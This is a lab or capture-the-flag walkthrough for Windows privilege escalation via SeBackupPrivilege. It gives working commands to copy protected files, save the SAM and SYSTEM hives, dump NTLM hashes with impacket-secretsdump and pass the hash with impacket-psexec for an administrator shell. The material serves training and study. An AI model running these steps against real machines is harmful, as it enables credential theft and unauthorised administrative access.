 #### Vulnerabilities
- SeBackupPrivilege: Allows users to read any file, bypassing access controls.

#### Requirements
Target Windows machine must grant SeBackupPrivilege to the user.

#### Steps
1. **Setup**
   - Verify user privileges.
   ```bash
   whoami /priv
   ```
   - Find temp user credentials in the public folder and connect with them
2. **Reconnaissance**
   - Confirm SeBackupPrivilege is enabled.
   ```bash
   whoami /priv | findstr SeBackupPrivilege
   ```
3. **Exploitation**
   - Use robocopy to copy sensitive files (e.g., SAM hive).
   ```powershell
   robocopy "C:\Users\Administrator\Desktop" "C:\Users\user_temp\Desktop" flag.txt /b /nfl /ndl /COPY:DAT
   ```
   - Get the flag from the Desktop of the shared directory.
   - Alternatively, you can [import malicious DLLS in the powershell](https://github.com/giuliano108/SeBackupPrivilege) to change the permissions with the current user (without switching accounts). 
   - After that, you can dump the ntlm hashes
   ```powershell
      $ reg save HKLM\sam sam
      $ reg save HKLM\system system
   ```
   - Copy the dumps to the attacking machine via shared folder or updog server or drag and drop if available.
   - Use impacket-secretsdump to obtain the password hashes for the administrator password
   ```bash
   impacket-secretsdump -sam <PATH_TO_SAM> -system <PATH_TO_SYSTEM> LOCAL
   ```
   - You will obtain the NTLM hashes for some users including Administrator. Use psexec to obtain an admin shell with the hashes, then find the flag in the desktop.
   ```bash
   impacket-psexec -hashes :<ADMIN_PASSWORD_HASH> Administrator@<WORKSTATION_IP>
   ```

#### Why It Works
SeBackupPrivilege allows reading of restricted files, enabling access to sensitive data like SAM hives for credential extraction.

#### Alternatives
- Use diskshadow to create a shadow copy for file access [NOT VERIFIED].

#### Resources
- [SeBackupPrivilege Guide: https://www.hacktricks.xyz/windows/windows-local-privilege-escalation/sebackupprivilege](https://www.hacktricks.xyz/windows/windows-local-privilege-escalation/sebackupprivilege)

#### Notes
- Ensure a writable directory for copied files.

---